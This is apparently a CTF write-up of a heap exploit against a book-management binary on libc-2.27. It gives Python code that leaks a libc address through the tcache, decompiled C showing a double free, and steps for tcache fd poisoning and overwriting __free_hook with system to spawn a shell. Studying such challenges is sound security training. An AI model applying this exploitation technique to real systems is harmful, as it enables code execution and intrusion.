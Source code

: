 # leak addr
This elf use the libc-2.27, which has the tcache to manage the chunks.
The first 7 chunks are put in the tcache instead of main arena.
So we should malloc at least 8 small bin chunks with the same size and then free them to leak the libc address.
```python
add('1','127','1','ref','y')
for i in range(2,9):
	add(str(i),'127',str(i),'ref','n')

for i in range(1,9):
	dele(str(i))
dele('1')
list()
p.recvuntil('\x31\x7c\x1b\x5b\x33\x33\x6d')
libc_addr = u64(p.recvuntil('\x1b')[:-1].ljust(8,'\x00')) - 0x3ebca0
print hex(libc_addr)
```
# overwrite fd
If the book 'A' is setted as best seller, we can add a new book 'B' as soon as 'A' is deleted.
At this time, the chunks 'B' uses are freed. 
```c
  if ( ptr )
  {
    --*((_BYTE *)ptr + 49);
    *(_QWORD *)((char *)ptr + 50) = sub_400C4A;
    if ( !*((_BYTE *)ptr + 49) )
    {
      free(*((void **)ptr + 1));
      free(ptr);
    }
  }
```
We can delete book 'B' to the cause double free. So the chunck is put in the tcache twice.
Then we can overwrite the fd in chunk by adding a new book.
# overwrite the free_hook
Because of the overwritting of fd, we can get the chunk in any address to write.
If we overwrite the fd to free_hook address, we can put system address in it.
And then we delete the chunk with string '/bin/sh', we can get shell.
